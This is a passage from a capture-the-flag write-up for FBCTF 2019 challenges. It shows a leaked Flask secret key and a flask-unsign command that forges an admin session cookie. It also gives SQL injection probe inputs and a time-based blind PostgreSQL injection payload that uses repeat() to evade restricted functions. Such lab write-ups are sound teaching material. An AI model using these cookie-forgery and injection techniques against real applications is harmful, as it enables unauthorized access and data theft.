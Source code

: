 It contains the secret key: `'SECRET_KEY': 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y'`

We use `flask-unsign` to sign flask cookie.

![](https://github.com/w181496/CTF/raw/master/fbctf2019/events/colab.png)

`flask-unsign --secret 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y' --sign --cookie "admin"`

=> `ImFkbWluIg.XPSrLA.NdkV5Vsk-a5gDFlll1JcU2SumDI`

Replace the `user` cookie with this value, and then get the flag!

![](https://github.com/w181496/CTF/raw/master/fbctf2019/events/admin.png)

flag: `fb{e@t_aLL_th0s3_c0oKie5}`


### hr_admin_module

This challenge tells us that there are some secrets in the `/var/lib/postgresql/data/secret`, but the current user doesn't have sufficient permissions to access it.

(This path tells us that backend DBMS is `postgresql`.)

There is a weird disabled function `Search users`, but we can still send the request with the parameter `user_search`.

If my input is invalid SQL statement, it will show the warning message on the next request.

e.g. 

- warning: `admin'`, `'''`, `'kaibro_30_cm`, ...
- no warning: `admin'--`, `''`, `'||'kaibro_30_cm`, ...

This is an obvious SQL Injection vulnerability.

And this chellenge seems like to restrict the permissions of some functions, e.g. `pg_sleep()`, `pg_read_file()`, ...

But I found that `repeat()` function will cause time delay!

e.g. `'and 1=2 union select NULL, (select case when 1=1 then (select repeat('a', 10000000)) else NULL end)--`

Now, we have Time-based SQL Injection!

My injection script is [here](https://github.com/w181496/CTF/blob/master/fbctf2019/hr_admin_module/exp.py).

Let's dump some basic information:

```
version: (Debian 11.2-1.pgdg90+1)
current_db: docker_db
current_schema: public
table of public: searches
columns of searches: id,search
current_query: SELECT * FROM searches WHERE search = 'YOUR_INPUT'
```
